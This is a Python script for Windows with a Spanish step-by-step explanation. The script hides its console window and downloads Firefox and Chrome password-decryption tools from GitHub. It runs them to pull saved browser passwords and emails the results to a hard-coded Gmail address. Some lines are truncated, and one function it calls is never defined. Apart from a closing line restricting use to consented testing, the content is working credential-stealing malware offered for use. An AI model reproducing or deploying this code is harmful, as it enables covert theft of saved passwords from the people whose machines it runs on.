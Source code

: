 ```python
#!/usr/bin/env python3
# coding: cp850

import subprocess 
import smtplib
import os
import sys
import requests
import tempfile
import ctypes
from email.mime.text import MIMEText

 
def hide_console(): 
  if sys.platform == "win32":
    ctypes.windll.user32.ShowWindow(ctypes.windll.kernel32.GetConsoleWindow(), 0) 

def run_command(command): 
    try:
        output_command= subprocess.check_output(command,shell=True) 
        return output_command.decode("cp850").strip() if output_command else None 
    except Exception as e:
        print(f"\n[!] Error al ejecutar el comando {command}. Err: {e}")
        return None
def send_email(subject,body,sender,recipients,password): 
    msg=MIMEText(body)
    msg['Subject'] = subject
    msg['From']= sender
    msg['To']= ', '.join(recipients)

    with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp_server:
        smtp_server.login(sender,password)
        smtp_server.sendmail(sender,recipients,msg.as_string())   

def get_firefox_passwords(username,profile): 
    r = requests.get("https://raw.githubusercontent.com/unode/firefox_decrypt/refs/heads/main/f>
    temp_dir = tempfile.mkdtemp() 
    os.chdir(temp_dir) 
    
    with open("firefox_decrypt.py", "wb") as f: 
        f.write(r.content) 
    p= requests.get("https://raw.githubusercontent.com/Riieiro/GoogleChromeDescrypt/refs/heads/>
    with open("google_descrypt.py", "wb") as f: 
        f.write(p.content)

    
    command=f"python firefox_decrypt.py C:\\Users\\{username}\\AppData\\Roaming\\Mozilla\\Firef>
    passwords= run_command(command)
    command2= "python google_descrypt.py"
    passwordsg=run_command(command2)

    passwords= passwords + passwordsg
    os.remove("firefox_decrypt.py") 
    os.remove("google_descrypt.py")
    return passwords 

if __name__=='__main__':
    hide_console() 
    username_str = run_command("whoami") 
    username = username_str.split("\\")[1]  
    profiles = get_firefox_profiles(username)
    
    if not username or not profiles:
        print(f"\n[!] No ha sido posible obtener el nombre de usuario o perfiles válidos para F>
        sys.exit(1)

    passwords = get_firefox_passwords(username,profiles)
    if passwords:
        send_email("Data Report", passwords, "nockeylogger@gmail.com", ["nockeylogger@gmail.com>
    else: 
        print(f"\n[!] No se han encontrado contraseñas")
```
----------------
## Explicación
1. **Ocultar la Consola**:
    - La función `hide_console` usa `ctypes` para ocultar la consola en sistemas Windows. Esto es útil para que el script se ejecute en segundo plano sin mostrar una ventana visible.
2. **Ejecución de Comandos en la Consola**:
    - La función `run_command` ejecuta comandos de consola mediante `subprocess.check_output`. Usa la codificación `cp850` para que el texto decodificado sea compatible con configuraciones de consola de Windows.
    - Si el comando falla, captura y muestra el error.
3. **Envío de Correos Electrónicos**:
    - `send_email` envía un correo electrónico utilizando `smtplib`. La conexión se realiza a través de `SMTP_SSL` con el servidor de Gmail en el puerto 465.
    - Envía el contenido especificado en `body` a los destinatarios definidos en `recipients`.
4. **Descarga y Ejecución de Scripts de Desencriptación de Contraseñas**:
    - `get_firefox_passwords` descarga dos scripts de GitHub: uno para desencriptar contraseñas de Firefox (`firefox_decrypt.py`) y otro para Chrome (`google_descrypt.py`), guardándolos en un directorio temporal.
    - Ejecuta el script de Firefox usando la ruta de perfil (`AppData\Roaming\...`) y el script de Chrome para recuperar contraseñas guardadas.
    - Ambos comandos usan `run_command` para ejecutar los scripts y almacenar las contraseñas en `passwords`.
    - Elimina ambos archivos descargados tras extraer las contraseñas.
5. **Ejecución del Script Principal**:
    - `username_str = run_command("whoami")` obtiene el nombre del usuario actual en Windows. `username` extrae el nombre de usuario específico.
    - La función `get_firefox_profiles` debería obtener los perfiles de Firefox (aunque no está definida aquí, debería listar los perfiles de usuario de Firefox).
    - Si no encuentra un nombre de usuario o perfiles válidos, el script muestra un mensaje y termina.
    - Si se encuentran contraseñas, `send_email` las envía al correo especificado en el cuerpo del mensaje; si no, muestra un mensaje de advertencia.

Este script ejecuta operaciones para extraer información confidencial y enviarla por correo electrónico, por lo que su uso está restringido a entornos de prueba y sólo con consentimiento explícito.